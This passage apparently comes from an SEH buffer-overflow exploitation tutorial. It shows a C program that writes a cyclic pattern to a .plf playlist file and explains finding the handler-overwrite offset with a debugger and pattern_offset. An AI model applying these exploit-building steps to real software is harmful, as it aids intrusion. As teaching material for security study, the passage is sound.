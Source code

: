 Adding the new payload to our exploit:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    const char *file = "seh_pattern.plf";

    const char *payload = 
        "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9"
        "Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9"
        "Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9"
        "Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9"
        "Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9"
        "Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9"
        "As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9"
        "Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A";

    FILE *arq = fopen(file, "w");
    if (arq == NULL) {
        return 1;
    }

    fwrite(payload, sizeof(char), strlen(payload), arq);
    fclose(arq);

    return 0;
}
```
By running our code and checking the debugger, we can capture the sequence of bytes that overwrite the exception handler. We’ll then use the pattern_offset tool to find the exact position of these bytes among the 700 others.